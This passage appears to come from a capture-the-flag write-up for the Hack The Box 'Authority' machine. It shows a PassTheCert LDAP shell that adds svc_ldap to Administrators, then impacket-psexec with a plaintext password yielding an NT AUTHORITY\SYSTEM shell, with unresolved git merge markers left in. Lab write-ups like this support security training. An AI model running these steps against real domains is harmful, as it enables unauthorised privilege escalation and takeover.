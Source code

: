 This happens “when a domain controller doesn’t have a certificate installed for smart cards”. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.

Alternatively, we can use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) attack.

To perform the PassTheCert attack. We will need key and cert in seprate files. We will use certipy to get these files.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222

#help
add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
add_user new_user [parent] - Creates a new user.
add_user_to_group user group - Adds a user to a group.


# add_user_to_group svc_ldap administrators
Adding user: svc_ldap to group Administrators result: OK

```

svc-ldap has been added to the administrator group. We can use psexec to confim that we can login as administrator.
<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
impacket-psexec authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.222.....
[*] Found writable share ADMIN$
[*] Uploading file YZVCWrHm.exe
[*] Opening SVCManager on 10.10.11.222.....
[*] Creating service NYke on 10.10.11.222.....
[*] Starting service NYke.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```